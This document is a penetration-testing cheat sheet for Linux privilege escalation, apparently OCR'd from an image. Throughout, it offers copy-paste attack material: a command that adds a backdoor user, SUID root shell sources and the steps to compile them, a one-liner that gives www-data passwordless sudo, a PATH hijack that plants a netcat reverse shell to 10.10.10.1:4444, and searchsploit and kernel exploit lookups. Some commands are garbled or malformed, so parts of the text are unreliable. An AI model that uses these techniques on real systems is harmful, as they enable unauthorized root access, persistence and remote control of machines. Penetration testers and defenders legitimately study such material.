 - Add a user or change a password\
/usr/sbin/useradd -p 'openssl passwd -1 thePassword' haxzor\
echo thePassword | passwd haxzor --stdin

- Local Privilege Escalation Exploit in Linux

    - **SUID** (**S**et owner **U**ser **ID** up on execution) Often SUID C binary files are required to spawn a shell as a superuser, you can update the UID / GID and shell as required.\
below are some quick copy and paste examples for various shells:\
SUID C Shell for /bin/bash

int main(void){\
setresuid(0, 0, 0);\
system("/bin/bash");\
}

SUID C Shell for /bin/sh

int main(void){\
setresuid(0, 0, 0);\
system("/bin/sh");\
}

Building the SUID Shell binary\
gcc -o suid suid.c\
For 32 bit:\
gcc -m32 -o suid suid.c

- Create and compile an SUID from a limited shell (no file transfer)\
echo "int main(void){\\nsetgid(0);\\nsetuid(0);\\nsystem(\\"/bin/sh\\");\\n}" >privsc.c\
gcc privsc.c -o privsc

- Handy command if you can get a root user to run it. Add the www-data user to Root SUDO group with no password requirement:\
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update

- You may find a command is being executed by the root user, you may be able to modify the system PATH environment variable to execute your command instead. In the example below, ssh is replaced with a reverse shell SUID connecting to 10.10.10.1 on port 4444.\
set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"\
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh\
chmod +x ssh

- SearchSploit\
searchsploit –uncsearchsploit apache 2.2\
searchsploit "Linux Kernel"\
searchsploit linux 2.6 | grep -i ubuntu | grep local\
searchsploit slmail

- Kernel Exploit Suggestions for Kernel Version 3.0.0\
./usr/share/linux-exploit-suggester/Linux_Exploit_Suggester.pl -k 3.0.0

- Precompiled Linux Kernel Exploits - ***Super handy if GCC is not installed on the target machine!***\
 [*https://www.kernel-exploits.com/*](https://www.kernel-exploits.com/) 
